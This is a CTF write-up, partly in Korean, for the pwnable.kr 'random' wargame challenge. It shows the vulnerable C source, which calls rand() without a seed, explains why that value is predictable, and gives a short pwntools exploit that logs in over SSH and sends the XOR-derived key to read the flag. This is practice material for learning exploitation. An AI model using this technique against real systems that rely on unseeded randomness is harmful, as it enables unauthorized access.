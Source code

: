 # [pwnable.kr] random

> Daddy, teach me how to use random value in programming!
>
> ssh random@pwnable.kr -p2222 (pw:guest)

## Bug

```c
/* random.c */

#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

`rand()`는 랜덤 값을 반환하긴 하지만, 실행할 때마다 랜덤 값을 생성하는 것이 아니라 미리 정해진 값을 반환하는 식으로 동작한다. 따라서 `srand()`와 `rand()`로 생성하는 랜덤 값은 무조건 재현할 수 있다.

## Exploit

```python
# ex.py

from pwn import *
from ctypes import *

p = ssh("random", "pwnable.kr", 2222, "guest").process("/home/random/random")

libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
random = libc.rand()
key = random ^ 0xDEADBEEF
p.sendline(str(key).encode())

p.interactive()
```

![image](https://github.com/user-attachments/assets/1aa9d95c-106f-4968-9987-30abf4961f3b)